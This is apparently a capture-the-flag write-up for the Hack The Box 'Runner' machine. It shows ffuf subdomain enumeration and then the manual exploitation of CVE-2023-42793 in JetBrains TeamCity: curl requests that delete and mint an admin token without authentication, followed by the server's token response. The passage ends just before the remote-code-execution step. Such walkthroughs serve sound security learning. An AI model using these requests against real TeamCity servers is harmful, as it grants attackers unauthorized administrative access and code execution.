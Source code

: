 ```markdown
> ffuf -c -w /usr/share/seclists/Discovery/DNS/namelist.txt -fc 302,404 -t 100 -u http://runner.htb -H "Host: FUZZ.runner.htb" 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://runner.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.runner.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302,404
________________________________________________

teamcity                [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 86ms]
:: Progress: [151265/151265] :: Job [1/1] :: 163 req/sec :: Duration: [0:02:56] :: Errors: 0 ::
```
Add to hosts file and enumerate with Firefox. 

![Untitled](https://github.com/user-attachments/assets/3cf62611-f21f-42d3-85d8-561046abe661)

A Teamcity v.2023.05.03 portal comes into view. This is a package delivery tool for developers (https://www.jetbrains.com/teamcity/).

### USER
Looking for Teamcity vulnerabilities, I came across this one: https://www.cvedetails.com/cve/CVE-2023-42793/<br>
<br>
Also, I found this interesting site: https://www.prio-n.com/blog/cve-2023-42793-attacking-defending-JetBrains-TeamCity<br>
<br>
There are several POC's in Github but couldn't make any of them work, so I decided to exploit the application manually. This was also used as a reference: https://github.com/hotplugin0x01/CVE-2023-42793<br>
<br>
First, delete any previous authentication token querying this endpoint `/app/rest/users/<userLocator>/tokens/RPC2`
```markdown
> curl –X DELETE "http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2"
```
And create a token for yourself.
```markdown
> curl -X POST "http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2"
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-04-21T17:25:01.502Z" value="eyJ0eXAiOiAiVENWMiJ9.MlF2QndBSlJYSXdQSUJYY2VxZWN4QTBCLWdR.NGQ2OTY2ZmUtOWY4Yi00MWFhLThkYTgtOTY3OTAyY2E1N2E2"/>
```
Next step is to configure the debug API to enable admins to trigger configuration reloads, thus enabling arbitrary RCE. For this, use the previously obtained token.
```markdown
```